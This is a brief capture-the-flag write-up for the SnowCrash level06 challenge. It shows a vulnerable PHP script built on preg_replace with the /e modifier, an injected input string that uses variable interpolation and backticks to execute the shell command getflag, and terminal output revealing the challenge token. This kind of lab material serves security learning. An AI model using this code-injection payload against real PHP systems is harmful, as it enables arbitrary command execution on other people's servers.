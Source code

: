 level06.php
```
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
```

/tmp/in
```
echo [x {${eval($_GET[`getflag`])}}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/in 
PHP Notice:  Undefined index: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1
echo 
```

Links:
* https://www-ppti.ufr-info-p6.jussieu.fr/doc-online/PHP/php7/php-chunked-xhtml/reference.pcre.pattern.modifiers.html#reference.pcre.pattern.modifiers.eval
* https://www.php.net/manual/fr/language.operators.execution.php